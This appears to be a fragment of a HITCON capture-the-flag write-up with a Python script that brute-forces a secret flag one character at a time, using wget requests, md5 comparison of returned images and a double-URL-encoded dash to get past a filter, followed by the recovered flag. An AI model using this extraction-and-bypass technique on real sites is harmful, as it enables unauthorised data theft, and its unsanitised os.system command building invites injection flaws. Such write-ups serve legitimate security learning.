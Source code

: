 ```python
        link = soup.find_all('a')[0]
        os.system("wget -q "+target+link.get('href')+" -O "+flag+char)
        return flag+char


def is_valid(image):
        hash = os.popen("cat "+image+" |md5sum").read()
        os.system("rm "+image)
        return ("59562acafb6436ea5fdf660ec57df0cc" not in hash)


for index in range(32):
        for char in chars :
                img_name = get_img(char)
                if is_valid(img_name) :
                        flag += char+"%252d"  # %252d => double url encoded '-'
                        print("[+] hitcon{"+unquote(unquote(flag))[:-1]+"}")
                        break
	
```

and here's the output

![flag](flag.png)

and here's the flag `hitcon{1-1-4-1-6-1-e-9-f-9-4-c-7-3-e-4-9-7-a-7-5-d-4-6-6-c-6-3-3-7-f-4}
`
